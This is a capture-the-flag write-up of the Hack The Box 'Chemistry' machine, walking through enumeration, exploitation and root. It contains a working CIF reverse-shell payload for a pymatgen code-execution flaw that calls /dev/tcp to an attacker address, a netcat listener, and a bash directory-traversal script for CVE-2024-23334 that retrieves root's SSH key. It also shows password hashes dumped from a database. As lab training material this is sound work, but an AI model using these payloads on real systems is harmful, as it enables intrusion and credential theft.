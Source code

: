 ```yaml
---
clayout: ctf
title: Chemistry
date: 2024-10-24
image: /ctf/hack-the-box/machines/chemistry/info-card.png
type: Hack The Box

ctf:
    - name: Chemistry
      link: https://app.hackthebox.com/machines/631
      thumbnail: /ctf/hack-the-box/machines/chemistry/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/631
          thumbnail: /ctf/hack-the-box/machines/chemistry/pwned.png
---
```


## Enumeration

### Nmap

We start by running an Nmap scan to enumerate the open ports and services on the target:

```bash
nmap -A -T4 -p- 10.10.11.38
```

```bash
Nmap scan report for 10.10.11.38
Host is up (0.025s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  http    Werkzeug httpd 3.0.3 (Python 3.9.5)
|_http-title: Chemistry - Home
|_http-server-header: Werkzeug/3.0.3 Python/3.9.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the results, we identified two open ports:

- Port 22: SSH
- Port 5000: HTTP (running Werkzeug)

### Exploring HTTP - Port 5000

Upon visiting the website on port 5000, we see that it's a **Chemistry CIF Analyzer** that allows uploading and
analyzing **CIF** (Crystallographic Information File) files.

![Chemistry - Home](/ctf/hack-the-box/machines/chemistry/home-page.png)

After registering and logging in, we land on the dashboard, where users can upload CIF files for analysis.

![Chemistry - Dashboard](/ctf/hack-the-box/machines/chemistry/dashboard-page.png)

The website provides a sample CIF file:

```text
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```

### Vulnerability Research

Researching the web, we came across
a [vulnerability report](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f) related
to the **pymatgen** library used by the application. This vulnerability allows **arbitrary code** execution by
manipulating CIF files.

## Exploitation

### Reverse Shell Payload

We exploit the **pymatgen** vulnerability by crafting a CIF file that triggers a reverse shell.

Here’s the payload:

```text
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/<ip>/4444 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "

```

::: info
Make sure to replace `<ip>` with your IP address and listen on port **4444** using `nc -lvnp 4444`.
:::

### Gaining Access

After uploading the payload, we receive a reverse shell. In the `instance` directory, we find a **sqlite database file**.

We can inspect the database with the following commands:

```bash
sqlite3 database.db
SELECT * FROM user;
```

This reveals a list of users and password hashes:

```bash
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
...
```

### User Flag

We find the user rosa in the /home directory. To access her account, we crack her password hash
using [CrackStation](https://crackstation.net/).

![CrackStation - Password Cracker](/ctf/hack-the-box/machines/chemistry/crackstation.png)

::: info
We can also use `hashcat` or `john` to crack the password hash.
:::

Once the password is cracked, we can log in via SSH:

```bash
ssh rosa@10.10.11.38
rosa@chemistry:~$ cat user.txt
[user-flag]
```

## Privilege Escalation

### Local Enumeration

Running `(netstat -punta || ss --ntpu)` reveals that **port 8080** is open locally.

```bash{2}
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
```

The root user is running a **monitoring_site** Python script:

```bash
/usr/bin/python3.9 /opt/monitoring_site/app.py
```

### Accessing the Internal Web Application

To view the web application running on port 8080, we use SSH port forwarding:

```bash
ssh -L 8080:127.0.0.1:8080 rosa@10.10.11.38
```

We then visit `http://localhost:8080` and use `whatweb` to identify the technology stack:

```plaintext
http://localhost:8080 [200 OK] HTML5, HTTPServer[Python/3.9 aiohttp/3.9.1], JQuery[3.6.0], Script, Title[Site Monitoring]
```

### Exploit (CVE-2024-23334)

We found that **aiohttp version 3.9.1** is vulnerable
to [CVE-2024-23334](https://github.com/z3rObyte/CVE-2024-23334-PoC), which allows directory traversal attacks. We can
use this exploit to access the root private key:

```bash
#!/bin/bash

url="http://localhost:8080"
payload="/assets/"
file="root/.ssh/id_rsa"

for ((i=0; i<15; i++)); do
    payload+="../"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"

    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

### Root flag

After retrieving the root private key, we log in as root:

```bash
ssh -i id_rsa root@10.10.11.38
root@chemistry:~# cat root.txt
[root-flag]
```

## References

- [GitHub - pymatgen vulnerability](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)
- [CrackStation](https://crackstation.net/)
- [HackTrick - Open ports](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports)
- [CVE-2024-23334](https://github.com/z3rObyte/CVE-2024-23334-PoC)
